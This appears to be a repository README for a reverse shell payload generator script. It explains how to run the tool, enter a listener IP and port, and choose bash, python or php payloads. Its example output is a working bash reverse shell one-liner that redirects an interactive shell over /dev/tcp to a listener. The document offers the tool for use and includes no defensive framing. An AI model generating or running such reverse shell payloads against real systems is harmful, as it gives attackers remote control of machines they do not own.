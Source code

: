 # revshell-generator
A simple  python reverse shell  payload generator script 
# just execute the file  ./executable
chmod +x sblsrvshell
./sblsrvshell

# set options
type listener ip and port 
# payload
 select payload option 
(1.bash
 2.python
 3.php ..etc)
 eg : if you need bash hit option number (1)
# output
 sh -i >& /dev/tcp/127.0.0.1/4444 0>&1
